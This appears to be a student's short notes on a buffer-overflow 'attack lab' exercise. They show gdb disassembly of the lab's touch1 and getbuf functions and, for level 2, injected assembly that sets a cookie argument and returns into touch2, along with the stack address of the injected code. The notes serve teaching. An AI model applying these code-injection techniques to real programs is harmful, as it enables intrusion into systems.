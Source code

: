 ## level1
```bash
disas touch1
```
```
0x0000000000401b6a <+0>:     sub    $0x8,%rsp
0x0000000000401b6e <+4>:     movl   $0x1,0x5984(%rip)        # 0x4074fc <vlevel>
0x0000000000401b78 <+14>:    lea    0x274c(%rip),%rdi        # 0x4042cb
0x0000000000401b7f <+21>:    callq  0x401080 <puts@plt>
0x0000000000401b84 <+26>:    mov    $0x1,%edi
0x0000000000401b89 <+31>:    callq  0x401fb6 <validate>
0x0000000000401b8e <+36>:    mov    $0x0,%edi
0x0000000000401b93 <+41>:    callq  0x4011f0 <exit@plt>
```
```bash
disas getbuf
```
```
0x0000000000401b54 <+0>:     sub    $0x28,%rsp
0x0000000000401b58 <+4>:     mov    %rsp,%rdi
0x0000000000401b5b <+7>:     callq  0x401da3 <Gets>
0x0000000000401b60 <+12>:    mov    $0x1,%eax
0x0000000000401b65 <+17>:    add    $0x28,%rsp
0x0000000000401b69 <+21>:    retq
```
## level2
aim: call touch2 with first argument is your cookie
```assembly
movq 0x2a328fb5,%rdi
pushq 0x401b98 # touch2 begins at 0x401b98
retq
```
> Above assembly is wrong because immediate needs to start with a `$`!!!
And assembly begins at 0x5566b658.
